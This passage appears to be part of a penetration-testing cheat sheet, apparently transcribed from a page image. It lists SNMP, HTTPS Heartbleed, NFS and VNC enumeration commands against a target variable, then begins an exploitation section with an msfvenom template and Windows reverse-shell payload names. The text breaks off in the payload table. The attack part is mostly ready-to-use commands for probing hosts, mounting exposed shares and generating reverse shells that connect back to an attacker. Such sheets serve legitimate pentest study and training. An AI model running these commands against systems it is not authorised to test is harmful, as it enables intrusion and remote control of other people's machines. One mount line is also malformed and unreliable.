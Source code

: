 ## Port 161 - SNMP
```bash
snmpwalk -c public -v1 $RHOST

snmpcheck -t $RHOST -c public

onesixtyone -c $NAMES_FILE -i $RHOST_FILE

snmpenum -t $RHOST
```

## Port 443 - HTTPS
```bash
nmap -sV --script=ssl-heartbleed $RHOST
```

## Port 2049 - NFS
```bash
# Enumeration
showmount -e $RHOST

# Mounting
mount $RHOST:/ /tmp/NFS
mount -t $RHOST:/ /tmp/NFS
```

## Port 5900 - VNC
```bash
vncviewer $RHOST
```

# 2. Exploitation
## MSFVenom Reverse Shell Payloads
### Generate Payloads

```bash
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT [-e $ENCODER [-i $ROUNDS]] [-b $BADCHARS] [-f $FORMAT] [-o $FILENMAE]
```

### Payloads
| Windows       |                                   |
|:--------- 	|   -----------------------------:	|
|   Staged  	| ``windows/shell/reverse_tcp`` 	|
| Stageless 	| ``windows/shell_reverse_tcp`` 	|
